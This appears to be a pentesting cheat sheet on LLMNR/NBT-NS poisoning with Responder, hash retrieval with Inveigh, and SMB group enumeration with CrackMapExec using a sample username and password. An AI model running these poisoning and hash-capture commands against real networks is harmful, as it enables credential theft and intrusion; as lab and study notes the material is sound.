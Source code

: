 # Poisoning LLMNR/NBT-NS

### Responder

Responder is a tool to posoning the response of LLMNR, NBT-NS protocols and more.. To more info read the[LLMNR/NTBT-NS Posoning](/o/g0p0AXIcTGvekdHmMoP7/s/EO0prAlimX7L2WsQXW17/sniffing-out-of-foothold/llmnr-nbt-ns-poisoning-from-linux).
Analysis mode

With **-A** (Analysis) flag we are able to **only listen the netwok** without performing a poisoning request

```bash
sudo responder -I ens244 -A
```

**Poisoning mode**  

```bash
sudo responder -I ens244
```

```bash
sudo responder -I ens24 -wrfv
```

- `-I`: indicate which network interface we'll be use
- `-w`: Start the WPAD rogue proxy server. Default value is Upstream HTTP proxy used by the rogue WPAD Proxy for outgoing requests (format: host:port)
- `-r`: Enable answers for **netbios** wredir suffix queries. Answering to wredir will likely break stuff on the network. Default: False
- `-f`: `--fingerprint` This option allows you to fingerprint a host that
- `-v`: Increase verbosity of log

### **Inveight**  

retrieve all NTLMv2 unique hash
```bash
GET NTLMV2UNIQUE
```

retrieve all hash users's founded

```bash
GET NTLMV2USERNAMES
```

# Users Enumeration With Credentials  

### Crackmapexec

To enum grousp

```bash
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups

```
